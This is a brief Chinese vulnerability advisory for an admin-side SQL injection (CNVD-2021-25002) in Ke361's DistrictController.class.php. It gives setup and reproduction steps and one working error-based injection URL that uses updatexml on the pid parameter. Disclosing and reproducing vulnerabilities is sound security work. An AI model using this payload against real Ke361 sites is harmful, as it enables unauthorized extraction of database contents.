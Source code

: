 # 

# Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![image-20220518153238593](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220518153238593.png)

验证POC

```
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153336344](./images/202205181533405.png)
